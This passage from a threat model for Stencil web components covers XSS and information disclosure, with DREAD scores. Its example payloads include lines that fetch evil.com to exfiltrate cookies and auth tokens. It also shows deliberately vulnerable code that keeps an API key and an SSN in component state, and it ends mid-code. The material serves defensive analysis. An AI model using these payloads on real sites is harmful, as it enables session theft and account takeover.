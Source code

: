 **Example Attack Payloads:**
```html
<!-- Stored in user bio field -->
<img src="x" onerror="fetch('https://evil.com/steal?cookies='+document.cookie)" />

<!-- In URL parameter -->
https://app.com/profile?name=<script>alert('XSS')</script>

<!-- In component property -->
<user-profile user-name='"; fetch("https://evil.com/steal", {method: "POST", body: localStorage.getItem("authToken")}); //'></user-profile>
```

**Attack Impact:**
- Session hijacking through cookie theft
- Account takeover via stolen authentication tokens
- Defacement of web applications
- Phishing attacks through injected content
- Cryptocurrency mining scripts

| Score | Rationale |
|-------|-----------|
| **Damage** | 10 | Full compromise of user session, data theft, account takeover |
| **Reproducibility** | 8 | Depends on application's input validation |
| **Exploitability** | 9 | Well-known attack vectors, many tools available |
| **Affected Users** | 10 | All end users of the application |
| **Discoverability** | 9 | Input fields and dynamic content are easily identifiable |

**DREAD Score: 46/50 - CRITICAL**

**Threat #8: Information disclosure via component state**
- **Category**: Information Disclosure
- **Description**: Sensitive information being exposed through component props, state, or internal data structures that can be accessed via browser developer tools or client-side inspection. Stencil components run in the browser where all JavaScript is accessible to users, making any sensitive data stored in component memory visible to attackers.

**Attack Scenarios:**
1. **Developer tools inspection**: Using browser dev tools to examine component state
2. **Component debugging**: Accessing component instances through global variables
3. **Memory dump analysis**: Using browser memory profiling to extract sensitive data
4. **Event listener exploitation**: Triggering debug events that expose internal state

**Example Vulnerable Code:**
```typescript
@Component({
  tag: 'payment-form'
})
export class PaymentForm {
  @State() creditCardNumber: string;
  @State() cvv: string;
  @State() apiKey: string = 'sk_live_abc123'; // VULNERABLE - API key in state
  @State() internalUserData = {
    ssn: '123-45-6789',      // VULNERABLE - SSN in state
    salary: 75000,           // VULNERABLE - sensitive PII
    role: 'admin'            // VULNERABLE - privilege info
  };
  
  // VULNERABLE - Debug method exposing sensitive data
  @Method()
  async debugInfo() {
    return {
      creditCard: this.creditCardNumber,
```
